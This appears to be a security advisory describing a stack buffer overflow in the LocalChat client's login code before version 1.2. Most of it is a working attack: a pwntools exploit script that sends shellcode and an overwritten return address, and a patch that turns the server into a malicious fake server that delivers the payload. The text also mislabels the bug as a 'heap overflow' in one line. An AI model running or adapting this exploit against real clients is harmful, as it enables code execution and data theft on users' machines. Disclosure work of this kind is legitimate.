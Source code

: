 # LocalChat Less than version 1.2 Stack Overflow Vulnerability

## SUMMARY

LocalChat is a tool for TCP and UDP communication. There is a stack overflow vulnerability in the client login feature, which can be triggered when the client receives a maliciously crafted response from a fake server.

This vulnerability can lead to arbitrary code execution, arbitrary command execution, acquisition of client machine privileges, and leakage of sensitive information.

## Product

- LocalChat
- Less than v1.2
- https://github.com/CStack90/LocalChat/releases/tag/v1.2


## DETAIL


- LocalChat/client/main.c
- LocalChat/client/commands.c


LocalChat/client/commands.c:login

After the client sends a login request, the server responds, and the client directly copies the response content into the token.

![alt text](assets/image.png)

The login is called in commande_detection, and token is passed as a parameter to commande_detection.

![alt text](assets/image-1.png)

The token from commande_detection is passed as a parameter to TCP_connect, which has a size of 16 bytes.

![alt text](assets/image-2.png)

![alt text](assets/image-3.png)

However, the client can receive data longer than 16 bytes, causing a stack overflow. It can be seen that up to 128 bytes can be copied.

![alt text](assets/image-4.png)

![alt text](assets/image-5.png)

This leads to a heap overflow that can overwrite the program's return address and hijack the program's control flow.

## Attack Process

The program operates in a loop waiting for user command inputs.

Users must perform a login operation first. Exiting the loop requires executing an exit operation, meeting the conditions needed for a stack overflow.


![alt text](assets/image-6.png)


Original return address

![alt text](assets/image-7.png)

Return address is controllable

![alt text](assets/image-8.png)

This client program also uses the system function, allowing this stack overflow to be combined with it to execute a large number of threatening commands, creating severe harm.

![alt text](assets/image-9.png)


Attack script (needs to be used with modified server binary):

```python
from pwn import *
from LibcSearcher import *
import sys

context(os='linux', arch='amd64', log_level='debug')

sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
rc=lambda x:p.recv(x)
rl=lambda :p.recvline()
ru=lambda x:p.recvuntil(x)
ita=lambda :p.interactive()
slc=lambda :asm(shellcraft.sh())
uu64=lambda x:u64(x.ljust(8,b'\0'))
uu32=lambda x:u32(x.ljust(4,b'\0'))
getaddr=lambda :uu64(rc(6).ljust(8,b'\0'))
getbinsh=lambda :libc.search(b'/bin/sh').__next__()

def print_hex(bin_code):
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)
	
def gdba(x=''):
	if len(sys.argv) > 1:
		if sys.argv[1] == 'n':
			return
	if type(p)==pwnlib.tubes.remote.remote:
		return
	elif type(p)==pwnlib.tubes.process.process:
		# gdb.attach(p,x)
		gdb.attach(proc.pidof(p)[0], x)
		pause()
def getProcess():
	if len(sys.argv) > 1:
		if sys.argv[1] == 'r':
			return remote('127.0.0.1','2059')
	return process('./output/server')

p=getProcess()

# payload = b'a'*0x18+p64(0x000000000040193A)
retaddr = 0x00007ffff7d99ec0
shellcode = asm(pwnlib.shellcraft.amd64.linux.write(1, 'rsp', 0x100))
payload = shellcode.ljust(0x18,b'a') + p64(retaddr)[:6]

# payload = b'a'*0x8
# payload = b'a'*127
while 1:
    sla(b'Input fakedata:\n',payload)

ita()

```

Server code modification:

```c
void *login(void* args){
    /* Request informations */
    struct request_processing *parent_info = args;

    int separator_pos;//Index of the separator
    char username[MAX_USER_USERNAME_LENGTH], password[MAX_USER_PASSWORD_LENGTH];//Username and password got from request
    char token[TOKEN_SIZE];//Token generated

    char data[REQUEST_DATA_MAX_LENGTH];
    strcpy(data,(*parent_info).request.data);//Put request data in data

    printf("\t[Login-thread] - Received data (length : %ld): %s\n", strlen(data), data); //Log
    + puts("Input fakedata:");
    + char payload[256];
    + scanf("%s", payload);
    + struct request fake_request;
    + fake_request.type = 0; //There is an error
    + strcpy(fake_request.data,payload);
    + sendto ((*parent_info).sock, (void *) &fake_request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
    /* parse data to username and password */
    //Get pos of separator
    for (separator_pos = 0; separator_pos < strlen(data) && data[separator_pos] != USER_PASSWORD_REQUEST_SEPARATOR; separator_pos++);
    
    //Check string param length
    if (separator_pos >= MAX_USER_USERNAME_LENGTH || strlen(data)-separator_pos > MAX_USER_PASSWORD_LENGTH){
        (*parent_info).request.type = -1; //There is an error
        strcpy((*parent_info).request.data,"Username or password are too long");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
        pthread_exit(NULL);
    } else if (separator_pos == 0 || separator_pos == strlen(data) || separator_pos == strlen(data)-1){
        (*parent_info).request.type = -1; //There is an error
        strcpy((*parent_info).request.data,"Username or password are empty");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
        pthread_exit(NULL);
    }

    /* Copy username and password from data */
    strncpy(username,data,separator_pos);
    username[separator_pos]='\0';
    strncpy(password,&data[separator_pos]+1,strlen(data)-separator_pos);

    if(findNickname(username,password,ACCOUNT_FILE,1) != 1){
        (*parent_info).request.type = -1; 
        strcpy((*parent_info).request.data,"Wrong username/password");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
    }else{
        /* Adding user to the shared memory */
        switch (add_user((*parent_info).shared_memory,username,&(*token))){
        case 0://All went right
            (*parent_info).request.type = 0;
            strcpy((*parent_info).request.data,token);
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        case 1://User already connected
            (*parent_info).request.type = -1; 
            strcpy((*parent_info).request.data,"User already connected");
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        default://Shared memory full of connected user
            (*parent_info).request.type = -1; 
            strcpy((*parent_info).request.data,"Maximum number of simultaneous connections reached");
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        }
    }
    pthread_exit(NULL);
}
```